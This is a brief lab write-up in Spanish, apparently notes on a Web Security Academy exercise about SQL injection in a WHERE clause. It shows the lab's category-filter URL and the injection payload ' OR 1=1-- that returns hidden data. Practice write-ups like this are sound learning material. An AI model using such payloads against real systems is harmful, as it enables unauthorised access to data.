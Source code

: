 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Cuando filtramos por categoría aparece tenemos la siguiente url:

url: https://0a7e00d603ff3b4180cb5333008b0081.web-security-academy.net/filter?category=Gifts

injection: https://0a7e00d603ff3b4180cb5333008b0081.web-security-academy.net/filter?category=Gifts `' OR 1=1--`